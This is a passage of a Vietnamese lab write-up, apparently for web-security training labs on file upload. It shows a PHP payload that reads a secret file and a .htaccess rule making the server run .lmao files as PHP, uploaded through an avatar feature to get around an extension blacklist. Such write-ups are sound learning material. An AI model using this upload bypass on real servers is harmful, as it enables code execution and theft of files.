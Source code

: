 ![Untitled](writeup_media/Untitled%2016.png)

Truy cập file vừa tải lên bằng url, ta được nội dung file `secret`

![Untitled](writeup_media/Untitled%2017.png)

---

### **Web shell upload via extension blacklist bypass**

Tạo file `ava.lmao` với nội dung

```php
<?php include("/home/carlos/secret");
```

Tạo file `.htaccess` với nội dung sau để server xử lí file đuôi `.lmao` như một file `php`

```
AddType application/x-httpd-php .lmao
```

Lần lượt upload file `.htaccess` và `ava.lmao` lên server bằng chức năng upload avatar

Truy cập file `ava.lmao` mà ta vừa upload, nhận thấy lệnh php đã được thực thi và ta đã đọc được nội dung file `secret`

![Untitled](writeup_media/Untitled%2018.png)

---